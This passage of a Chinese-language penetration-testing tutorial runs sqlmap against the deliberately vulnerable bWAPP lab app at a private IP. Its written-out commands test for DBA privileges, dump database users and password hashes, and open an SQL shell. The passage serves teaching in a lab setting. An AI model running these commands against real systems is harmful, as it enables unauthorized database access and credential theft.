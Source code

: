 4.  现在，在 Kali 中访问终端并输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba
    ```
    
    ![](img/7-5-2.jpg)
    
    我们可以看到注入成功了。当前的用户是 DBA，这意味着用户可以对数据库执行管理员操作，例如添加用户和修改密码。
    
5.  现在我们打算提取更多信息，例如用户和密码，所以在终端中输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba --users --passwords
    ```
    
    ![](img/7-5-3.jpg)
    
    我们现在得到了数据库的用户列表以及哈希后的密码。
    
6.  我们也可以获得 shell，让我们能够直接发送 SQL 查询到数据库。

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title –sql-shell
    ```
    